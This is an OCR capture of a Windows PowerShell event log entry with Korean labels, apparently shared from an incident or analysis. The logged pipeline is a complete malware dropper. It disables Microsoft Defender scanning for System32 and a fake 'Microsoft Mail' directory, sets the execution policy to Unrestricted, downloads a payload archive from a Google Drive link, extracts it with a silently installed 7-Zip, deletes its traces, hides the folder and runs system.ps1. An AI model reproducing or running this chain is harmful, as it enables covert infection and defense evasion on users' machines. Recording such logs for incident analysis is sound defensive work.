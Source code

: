 <br>

```
명령줄의 파이프라인 실행 세부 정보: Add-MpPreference -ExclusionPath "C:\Windows\System32"; $executionPolicyPath = "HKLM:\Software\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell"; $executionPolicyValue = "Unrestricted"; Set-ItemProperty -Path $executionPolicyPath -Name "ExecutionPolicy" -Value $executionPolicyValue; Add-Type -AssemblyName System.IO.Compression.FileSystem; function Test-InternetConnection { try { $request = [System.Net.WebRequest]::Create("http://www.google.com"); $request.Timeout = 10000; $request.Method = "HEAD"; $response = $request.GetResponse(); $response.Close(); return $true } catch { return $false } }; function Create-BaseDirectory { $directoryPath = "C:\Program Files\Microsoft Mail"; if (!(Test-Path -Path $directoryPath)) { New-Item -Force -ItemType directory -Path $directoryPath; Write-Output "[+] Base Directory Created" } else { Write-Output "[!] Base Directory Already Exists" }; Add-MpPreference -ExclusionPath "C:\Program Files\Microsoft Mail" }; function Download-File { $url1 = "https://www.7-zip.org/a/7z2401-x64.exe"; $dest1 = "C:\Program Files\Microsoft Mail\7z.exe"; $url2 = "https://drive.usercontent.google.com/u/0/uc?id=1OvkcHZnQd91akAGdaQLNWU_HxjNvv9Hl&export=download"; $dest2 = "C:\Program Files\Microsoft Mail\mail.zip"; $client = New-Object System.net.webclient; $client.DownloadFile($url1, $dest1); $client.DownloadFile($url2, $dest2); Write-Output "[+] Success Download" }; function PWUnzip { $install7z = "C:\Program Files\Microsoft Mail\7z.exe"; $zipFilePath = "C:\Program Files\Microsoft Mail\mail.zip"; $7zipPath = "C:\Program Files\7-Zip\7z.exe"; Start-Process $install7z /S -Wait -PassThru; & $7zipPath x $zipFilePath -y; mv rc "C:\Program Files\Microsoft Mail\" }; function Hide-Action { Remove-Item -Path "C:\Program Files\Microsoft Mail\mail.zip"; Remove-Item -Path "C:\Program Files\Microsoft Mail\7z.exe"; Remove-Item -Path "C:\Users\torden\Downloads\mail helper.zip"; Remove-Item -Recurse -Path "C:\Users\torden\Downloads\mail helper"; $End_Task = Get-Item "C:\Program Files\Microsoft Mail\" -Force; $End_Task.Attributes = "Hidden"; Write-Output "[+] Success Hidden_Action" }; Create-BaseDirectory; if (Test-InternetConnection) { Download-File; PWUnzip; Hide-Action }; cd "C:\Program Files\Microsoft Mail\rc"; & ".\system.ps1"                . 

컨텍스트 정보: 
	DetailSequence=1
	DetailTotal=1

	SequenceNumber=19

	UserId=DESKTOP-UAR1ODI\horim
	HostName=ConsoleHost
	HostVersion=5.1.19041.5369
	HostId=a5338884-9dff-4c76-958e-23188077e040
	HostApplication=powershell
	EngineVersion=5.1.19041.5369
	RunspaceId=511f0e7c-7646-4dcd-8b44-b99961f93057
	PipelineId=20
	ScriptName=
```